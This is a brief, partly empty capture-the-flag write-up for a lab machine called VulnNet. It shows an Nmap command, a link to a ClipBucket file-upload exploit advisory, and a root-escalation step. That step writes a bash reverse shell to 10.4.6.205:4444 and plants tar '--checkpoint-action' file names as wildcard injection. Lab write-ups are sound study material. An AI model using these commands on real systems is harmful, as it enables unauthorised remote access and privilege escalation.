

# VulnNet

##### Written: 

##### IP address: 10.10.69.110

##### Difficulty: Medium

---

### [Setup]

Before doing anything, let's add the IP address into our **/etc/hosts** file:



---

### [ What is the user flag? (user.txt)  ]

Let's first conduct a full**Nmap** scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.69.110
```

**Results:**

```
```


https://beautifier.io/

https://packetstormsecurity.com/files/146913/ClipBucket-beats_uploader-Unauthenticated-Arbitrary-File-Upload.html


### [ What is the root flag? (root.txt) ]


```
touch -- --checkpoint=1
echo $'#!/bin/bash\nbash -i >& /dev/tcp/10.4.6.205/4444 0>&1' > shell.sh
touch -- --checkpoint-action=exec=bash\ shell.sh
```
